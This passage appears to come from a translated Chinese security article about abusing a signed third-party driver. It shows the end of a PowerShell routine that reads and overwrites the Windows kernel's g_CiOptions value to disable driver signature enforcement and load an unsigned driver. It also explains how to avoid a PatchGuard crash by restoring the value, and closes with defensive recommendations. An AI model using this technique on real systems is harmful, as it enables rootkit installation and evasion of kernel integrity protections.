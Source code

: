 ```
            Write-Output "[+] CI!g_CiOptions: $('`{`0:X`}`' -f $g_CiOptions)"
            break
        `}`
    `}`
    # print g_CiOptions
    Write-Output "[+] Current CiOptions Value: $('`{`0:X`}`' -f $(Bitmap-Read -Address $g_CiOptions))`n"
    if ($SetValue) `{`
        Bitmap-Write -Address $g_CiOptions -Value $SetValue
        # print new g_CiOptions
        Write-Output "[!] New CiOptions Value: $('`{`0:X`}`' -f $(Bitmap-Read -Address $g_CiOptions))`n"
    `}`
`}`
```

截图如下，当前的g_CiOptions值是0x6（驱动签名启动了），且阻止了我们加载evil.sys。

[![](https://p4.ssl.qhimg.com/t0172d8cc924976f4af.png)](https://p4.ssl.qhimg.com/t0172d8cc924976f4af.png)

在覆写这个值后，我们能成功加载我们的未签名的驱动。

[![](https://p3.ssl.qhimg.com/t01de120a908ece0c2f.png)](https://p3.ssl.qhimg.com/t01de120a908ece0c2f.png)

不过g_CiOptions被PatchGuard保护，意味着如果这个值改变了，Windows将蓝屏（CRITICAL_STRUCTURE_CORRUPTION）。然而这个不太可能发生，当测试时我不得不等待了一个小时才等到PatchGuard触发。如果你加载了未签名的驱动，且恢复了这个值，PatchGuard将不会意识到。我的深度防御的建议是在驱动加载时触发CI的PatchGuard检查，尽管这个也不能阻止攻击者反射加载驱动，但会提高门槛。

<br>

**0x04 想法**

第三方，签名的驱动对Windows内核构成了严重威胁，我确信这个例子已经说明了这种情况。我也发现实现简单的内核subversion比想象中容易，尤其是与PatchGuard有关的。总的来说，我认为最明智的做法是组织使用驱动白名单来部署设备保护，以便消除这种类型的攻击。

[Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)在GitHub中提供，用于教育/测试的目的，不要做坏事。
